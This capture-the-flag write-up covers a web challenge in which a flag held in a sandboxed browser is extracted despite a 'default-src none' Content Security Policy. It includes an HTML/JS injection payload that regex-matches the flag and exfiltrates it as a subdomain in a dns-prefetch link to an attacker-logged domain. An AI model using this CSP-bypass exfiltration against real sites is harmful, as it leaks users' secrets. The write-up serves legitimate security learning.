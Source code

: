 # Trivial

### Problem 

The flag is stored in the localStorage of a browser located on the server. We are given a route to inject HTML into an iframe into the home page opened on the browser. The page sets a Content Security Policy of `default-src 'none';` effectively blocking all requests, even to itself. The iframe also has a sandbox restriction of `allow-scripts`, which prevents popups and access to the parent document, but allows scripts.

### Solution

I did not solve this challenge during the contest window. However I did try out the solution myself afterwards. 

Obtaining the flag is easy, we can extract the contents of the flag using a simple regex on the document text: 
```js
/CTF\{(.*)\}/.exec(document.body.innerText)[1];
```
Due to the strict Content Security Policy, there was hardly a way to do it. However it appears that using DNS prefetching can bypass this, and the flag can be received by logging DNS requests. 

[messwithdns](https://messwithdns.net/) was a suggested tool, so by clicking `Start Experimenting` and then using the subdomain in the following HTML, we can bypass the CSP and obtain the flag in the request log: 
```html
<script>
document.getElementsByTagName('body')[0].innerHTML += `\<link rel="dns-prefetch" href="//${/CTF\{(.*)\}/.exec(document.body.innerText)[1]}.DOMAIN_HERE"\>`
</script>
```


[//]: # I did not obtain the actual flag but it works on local server. 